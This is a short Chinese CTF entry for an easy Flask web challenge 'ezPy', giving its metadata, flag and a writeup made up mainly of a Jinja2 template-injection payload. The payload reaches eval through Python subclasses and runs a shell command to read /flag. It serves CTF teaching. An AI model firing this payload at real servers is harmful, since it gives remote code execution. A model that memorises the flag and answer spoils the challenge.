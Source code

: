 - **题目名称：** ezPy
- **题目类型：** WEB
- **题目难度：**容易
- **出题人：** ABU
- **考点：**

1. python flask ssti模板注入

- **描述：**直接注就完了
- **flag：**flag{Pyth0n_1s_1mp0rtant!!!!!}
- **Writeup：** 

payload如下

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat /flag").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

